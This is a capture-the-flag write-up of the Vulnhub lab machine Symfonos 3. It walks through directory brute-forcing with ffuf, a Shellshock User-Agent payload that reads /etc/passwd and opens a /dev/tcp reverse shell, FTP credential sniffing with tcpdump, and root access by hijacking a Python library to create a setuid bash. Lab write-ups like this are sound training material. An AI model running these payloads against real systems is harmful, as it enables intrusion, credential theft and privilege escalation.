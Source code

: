 +++
title = "Vulnhub: Symfonos 3"
date = "2021-02-11"
author = ""
authorTwitter = "" #do not include @
tags = ["Intermediate", "Vulnhub", "OSCP Prep", "ffuf", "Directory Bruteforce", "ShellShock", "Tcpdump"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/symfonos1/symfonos1.png"
images = ["/img/symfonos1/symfonos1.png"]
+++



| Difficulty | Release Date | Author | 
| ---------- | ------------ | ------ | 
| Intermediate | 7 Apr 2020 | Zayotic | 

# Summary

In this box, we need to perform some directory bruteforce then use shellshock vulnerability to get our first shell.
We then sniff local traffic using tcpdump and get credentials for the next user who has permissions to write python2.7 lib 
directory. Using those write permissions we hijack a library that is imported in a script that is executed by root in a
cron job. We create a suid bash binary that we use to get a root shell.

# Reconnaissance

Nmap

```nmap
Nmap scan report for 192.168.191.130
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 cd:64:72:76:80:51:7b:a8:c7:fd:b2:66:fa:b6:98:0c (RSA)
|   256 74:e5:9a:5a:4c:16:90:ca:d8:f7:c7:78:e7:5a:86:81 (ECDSA)
|_  256 3c:e4:0b:b9:db:bf:01:8a:b7:9c:42:bc:cb:1e:41:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## HTTP (80)

Visiting the IP on the browser, all we get is a picture.

{{< image src="/img/symfonos3/symfonos3-11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Viewing the source doesn't reveal much.

{{< image src="/img/symfonos3/symfonos3-12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Performing a recursive directory bruteforce using ffuf with recursion enabled we get several directories.

```sh
ffuf -ic -c -u http://192.168.191.130/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -recursion | tee ffuf.out.recurse
```

{{< image src="/img/symfonos3/symfonos3-3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Going to the research endpoint, there's information about the Underworld and Greek mythology. 

{{< image src="/img/symfonos3/symfonos3-4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the words look similar to the directories we discovered, so let's create a wordlist which maybe helpful later.

```shell
cewl http://192.168.191.130/gate/cerberus/tartarus/research -w words.txt
```
The current directories we have discovered don't have much in them. At this point I was stuck a bit, after looking at
some writeups I realized that sometimes valid directories show when you have a trailing slash at the end. So I ran ffuf again
with a trailing slash.

```shell
ffuf -ic -c -u http://192.168.191.130/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt | tee ffuf.rootdir
```

{{< image src="/img/symfonos3/symfonos3-5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this idea, cgi-bin directory is discovered. This is a nice directory bruteforce tip I'll use going forward. The presence of
cgi-bin could potentially mean we can have a shellshock vulnerability.

Running another bruteforce using the wordlist I created earlier didn't work. I then thought to get a lowercase version of the 
words and try it.

```shell
cewl --lowercase http://192.168.191.130/gate/cerberus/tartarus/research -w words2.txt

ffuf -ic -c -u http://192.168.191.130/cgi-bin/FUZZ -w words2.txt
```
{{< image src="/img/symfonos3/symfonos3-13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With the lowercase wordlist, we get underworld.

To verify the shellshock vulnerability, we can send this request.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as cerberus

After verifying this vulnerability, we can get a reverse shell.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

On running id we notice that cerberus is part of pcap group. To figure out what is unique about this group I used the find
command.

```shell
find / -group pcap -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This reveals we can run tcpdump, therefore we can sniff network traffic. 

Before sniffing traffic, I used [pspy](https://github.com/DominicBreuker/pspy) to check for cron jobs and other commands being executed.

{{< image src="/img/symfonos3/symfonos3-9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this I was able to pick up a cronjob that runs as root. Since ftpclient.py is being executed, I'll sniff ftp 
traffic which isn't typically encrypted.

```shell
tcpdump port 21 -n -i lo -A
```

{{< image src="/img/symfonos3/symfonos3-10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From the tcpdump traffic we get new credentials, hades : PTpZTfU4vxgzvRBE.

# Privilege Escalation

Using the credentials we login to ssh as hades, running id reveals hades is in gods group.

{{< image src="/img/symfonos3/symfonos3-14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Running find again reveals we have write permissions to /usr/lib/python2.7 folder.

```shell
find / -group gods -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-15.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Based on the earlier output of pspy, we saw a cronjob that was running as root and python2.7 was being executed. Therefore we can hijack
any imports in that ftpclient.py script.

{{< image src="/img/symfonos3/symfonos3-16.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Since ftplib is imported, we'll replace ftplib.py with this script

```py
import os

os.system('cp /bin/bash /tmp/bash')
os.system('chmod +s /tmp/bash')
```

{{< image src="/img/symfonos3/symfonos3-17.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This will create a setuid bash binary in /tmp. Which can use to gain root privileges.

{{< image src="/img/symfonos3/symfonos3-18.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

